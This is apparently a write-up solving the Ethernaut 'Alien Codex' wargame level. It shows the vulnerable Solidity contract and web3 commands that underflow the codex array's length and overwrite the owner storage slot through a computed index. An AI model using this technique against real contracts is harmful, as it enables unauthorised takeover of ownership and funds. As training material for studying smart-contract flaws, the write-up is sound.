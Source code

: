 # [19. Alien Codex](https://ethernaut.openzeppelin.com/level/0xda5b3Fb76C78b6EdEE6BE8F11a1c31EcfB02b272)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

The problem is hinting us to somehow use the `codex` array to change the owner of the contract. The tool in doing so probably has something to do with the `length` of array. In fact, the `retract` is suspiciously dangerous, and actually might _underflow_ the array length!. The array length is an `uint256`, and once it is underflowed you basically "have" the entire contract storage (all $2^{256} - 1$ slots) as a part of your array. Consequently, you can index everything in the memory with that array!

- After `make_contact`, we see that `await web3.eth.getStorageAt(contract.address, 0)` returns `0x000000000000000000000001da5b3fb76c78b6edee6be8f11a1c31ecfb02b272`. Remember that smaller than 32-bytes variables are bundled together if they are conseuctive, so this is actually `owner` and `contact` variable side by side! The `01` at the end of leftmost `0x00..01` stands for the boolean value.
- The next slot, `await web3.eth.getStorageAt(contract.address, 1)` is the length of `codex` array. If you record something you will see that it gets incremented. Well, what if we `retract`? You will be shocked to see that it becomes `0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff`!

So then, how does indexing work and how can we index the `owner` slot now that our array covers the entire storage? We look at the docs of highest version 0.5.0 as that is what the puzzle uses: <https://docs.soliditylang.org/en/v0.5.17/miscellaneous.html#mappings-and-dynamic-arrays>.

> The mapping or the dynamic array itself occupies a slot in storage at some position p according to the above rule (or by recursively applying this rule for mappings of mappings or arrays of arrays). For dynamic arrays, this slot stores the number of elements in the array. Array data is located at keccak256(p).

To see this in action, we can do:

```js
await contract.record('0xffffffffffffffffffffffffffffffff')
await web3.eth.getStorageAt(contract.address , web3.utils.hexToNumberString(web3.utils.soliditySha3(1)))
// 0xffffffffffffffffffffffffffffffff00000000000000000000000000000000
```

Alright, so first we have to `retract` until the array length underflows, and then we just have to offset enough from `keccak256(1)` until we overflow and get back to 0th index, overwriting the `owner`! The array data is located at `uint256(keccak256(1))` and there are `2 ** 256 - 1 - uint256(keccak256(1))` values between that and the end of memory. So, just adding one more to that would mean we go to 0th index. To calculate this index I just wrote a small Solidity code in Remix:

```solidity
function index() public pure returns(uint256) {
  return type(uint256).max - uint256(keccak256(abi.encodePacked(uint256(1)))) + 1; 
}
```

Then I call the `revise` function as follows:

```js
await contract.codex('35707666377435648211887908874984608119992236509074197713628505308453184860938') // if you want to confirm
await contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', web3.utils.padLeft(player, 64))
```

Note: You can't set the array length property since version 0.6.0, thankfully! See <https://ethereum.stackexchange.com/a/84130>.
